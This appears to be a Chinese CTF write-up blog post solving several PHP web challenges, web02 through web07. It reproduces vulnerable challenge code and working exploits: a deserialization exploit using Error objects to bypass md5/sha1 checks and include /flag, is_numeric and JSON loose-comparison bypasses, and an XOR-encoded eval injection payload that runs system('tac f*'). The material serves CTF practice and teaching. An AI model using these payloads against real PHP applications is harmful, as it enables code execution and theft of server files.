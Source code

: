 ```yaml
---
layout:    post
title:     第三周
subtitle:  学习学习
date:      2021-08-12
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:
    - CTF
---
```


### web02

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("不对 !!");
           }
           
        }
    }
}

if (isset($_GET['niu_niu.gan'])){
    unserialize($_GET['niu_niu.gan']);
} else {
    highlight_file(__FILE__);
}
?>
```

利用Error类绕过md5和sha1检测，Error类中有``__toString``方法，做字符串处理时就会调用这个函数，md5()和sha1()函数都会调用``__toString()``，例如：

[![fzbibF.png](https://z3.ax1x.com/2021/08/22/fzbibF.png)](https://imgtu.com/i/fzbibF)

**注意：** $a和$b要在同一行，不然md5和sha1后不相等，定义是要在同一行，因为报错的打印出来的包括错误行数。

我们可以将题目中的$syc和$lover分别声明为类似上方的内置类对象，来绕过。因为题目过滤了括号，无法调用函数，所以我们用``include "/flag"``将flag包含进来，引号用url取反绕过。

最终exp:

```php
<?php

$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a=new Error($str,1);$b=new Error($str,2);

class SYCLOVER {
	public $syc;
	public $lover;
}

$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;

echo urlencode(serialize($c));
?>
```



### web03

```php
 <?php
//flag in fl0gd.php
error_reporting(0);
highlight_file(__FILE__);
$yutu = $_GET['y'];
function rongyao($a){
    return preg_replace('/php|phtml|flag|/i','',$a);
}
if($_COOKIE){
    unset($_COOKIE);
}

$_ABC["xiaqing"] = 'xiaqing';
$_ABC["qjj"]=$yutu;

extract($_POST);

if(!$_GET['photo']){
    $_ABC['photo'] = base64_encode('photo.png');
}else{
    $_ABC['photo'] = md5(base64_encode($_GET['photo']));
}

$serialize = rongyao(serialize($_ABC));

if($yutu=='qiaojingjing'){
    echo 'you are my rongyao~~';
}else if($yutu=='show_photo'){
    $phpinfo = unserialize($serialize);
    echo file_get_contents(base64_decode($phpinfo['photo']));
} 
```



### web05

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
require __DIR__.'/lib.php';
if(isset($_GET['time'])){
    if(!is_numeric($_GET['time'])){
        echo 'The time must be number.';
    }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){
        echo 'This time is too short.';
    }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){
        echo 'This time is too long.';
    }else{
        sleep((int)$_GET['time']);
        echo $flag1;
    }
    echo '<hr>';
} 
```

这里用is_numeric检查是否为数字，而后面用(int)将字符型数字转为数字型数字，那么我们来比较一下这两个函数对字符型数字的处理。
前者支持普通数字型、科学记数法型、部分支持十六进制0x型，在前者支持的形式中，后者不能正确转换的类型有十六进制型、科学计数法型（部分）。
因此我们可以使用十六进制或科学计数法来绕过，如``?time=5.184001e6``

访问robots.txt得到：``index.php lib.php part.php part.txt``

访问part.txt得到：

```php
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")
    die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
    die($_403);
foreach ($_GET as $key => $value)
    $$key = $$value;
foreach ($_POST as $key => $value)
    $$key = $value;
if ( $_POST["flag"] !== $flag )
    die($_403);
echo "This is your flag : ". $flag2 . "\n";
die($_200);
```

这个有问题，只要给flag传参即可得到flag。

正确解法应该是：利用第一个foreach先将$flag的值赋给``$_200``，然后利用``die($_200)``将原本的flag值打印出来。

### web06

进入后是一个2048游戏，查看源码，再去看js源码，找到phpisbest.php提示，去访问：

```php
<?php 
show_source(__FILE__);
@include_once 'flag.php';
//phpisbest language
    $a = $_GET['a'];
    $b = $_GET['b'];
    $good = false;
    if (sha1($a)===sha1($b)) {
        $good = true;
    }
    else die('bypass');
    if ($good && isset($_GET['key'])){
        $message = json_decode($_GET['key']);
        if ($message->key==$key) {
            echo $flag;
        }    
        else die('flag is coming!');
    }

?>
```

a和b取一样，key采用json弱比较，所以给他赋值为0即可：

```
?a=1&b=1&key={"key":0}
```



### web07

进入后一个phpinfo页面，访问robots.txt得到提示，``?use1``，访问得到：

```php
 <?php


include"flag.php";
if(isset($_GET['use1'])){
    show_source(__FILE__);
    $v1 = (String)$_GET['use1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}else{
    phpinfo();
} 
```

``/^\W+$/``的意思：匹配``[^a-zA-Z0-9_]``（任意个非单词字符、非数字字母下划线的字符）。

$v1$v3$v2绕过利用php特性，数字和命令进行一些运算，如``1-phpinfo();``是可以执行phpinfo()命令的。如：``eval("1-system("cat flag.txt");");``。(不一定是减号，还有加、乘、除号，若用加号，要进行URL编码，这是个特殊字符，不进行编码会当作空格)

所以我们构造出``1-phpinfo()-1``这种格式即可，也就是``v1=1&v2=1&v3=-system("tac f*")-``，然后用取反绕过正则。得到：

```
("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%01%06%02"^"%7f%60%60%21%60%28")
```

最后payload：

```
?use1=1&v2=1&v3=-("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%01%06%02"^"%7f%60%60%21%60%28")-
```

